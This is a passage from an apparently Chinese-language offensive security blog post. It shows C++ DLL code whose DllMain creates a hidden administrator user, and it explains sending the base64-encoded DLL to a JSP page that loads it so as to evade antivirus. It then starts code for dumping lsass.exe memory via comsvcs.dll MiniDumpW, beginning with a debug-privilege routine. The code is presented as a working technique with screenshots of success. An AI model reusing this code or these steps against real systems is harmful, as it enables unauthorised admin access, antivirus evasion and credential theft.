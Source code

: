 ```cpp
    case DLL_PROCESS_ATTACH:
		CreateAdminUserInternal();
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

```

在DllMain函数中调用CreateAdminUserInternal实现添加管理员用户audit。将dll文件进行base64编码，发送到加载动态链接库的jsp页面，就可以绕过数字杀毒添加用户了：

![](https://images.payloads.online/2022-08-11-22-05-16.png)

发送之前：

![](https://images.payloads.online/2022-08-11-22-05-42.png)

发送之后：

![](https://images.payloads.online/2022-08-11-22-05-54.png)

![](https://images.payloads.online/2022-08-11-22-05-59.png)

至此管理员用户添加成功。

当DLL的编译架构与Java进程的位数不同，加载会失败，抛出：`Can't load AMD 64-bit .dll on a IA 32-bit platform。`

![](https://images.payloads.online/2022-08-11-22-06-15.png)

这个问题只需要调整DLL的编译架构就行：

![](https://images.payloads.online/2022-08-11-22-06-31.png)

同样的我们还可以调用comsvcs.dll导出的MiniDumpW转储lsass.exe进程的内存。

```cpp
// dllmain.cpp : 定义 DLL 应用程序的入口点。
#include "pch.h"
#include <windows.h>
#include <DbgHelp.h>
#include <iostream>
#include <TlHelp32.h>
#pragma comment( lib, "Dbghelp.lib" )

typedef HRESULT(WINAPI* _MiniDumpW)(DWORD arg1, DWORD arg2, PWCHAR cmdline);

bool EnableDebugPrivilege()
{
    HANDLE hThis = GetCurrentProcess();
    HANDLE hToken;
    OpenProcessToken(hThis, TOKEN_ADJUST_PRIVILEGES, &hToken);
    LUID luid;
    LookupPrivilegeValue(0, TEXT("seDebugPrivilege"), &luid);
    TOKEN_PRIVILEGES priv;
    priv.PrivilegeCount = 1;
    priv.Privileges[0].Luid = luid;
    priv.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
    AdjustTokenPrivileges(hToken, false, &priv, sizeof(priv), 0, 0);
    CloseHandle(hToken);
    CloseHandle(hThis);
    return true;
}
```